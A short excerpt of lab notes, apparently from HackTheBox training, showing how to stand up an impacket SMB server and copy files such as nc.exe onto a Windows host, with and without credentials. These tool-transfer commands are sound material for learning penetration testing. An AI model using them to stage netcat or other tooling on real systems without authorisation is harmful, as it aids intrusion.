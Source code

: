 
#### Create the SMB Server
```shell-session
AhmaDb0x@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

#### Copy a File from the SMB Server
```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe
```
---
New versions of Windows block unauthenticated guest access, as we can see in the following command:

#### Create the SMB Server with a Username and Password
```shell
AhmaDb0x@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare 
-user `test` -password `test`
```

#### Mount the SMB Server with Username and Password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

copy \\10.10.15.83\share\upload_win.zip C:\Users\htb-student\Desktop


```

```
**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.
```

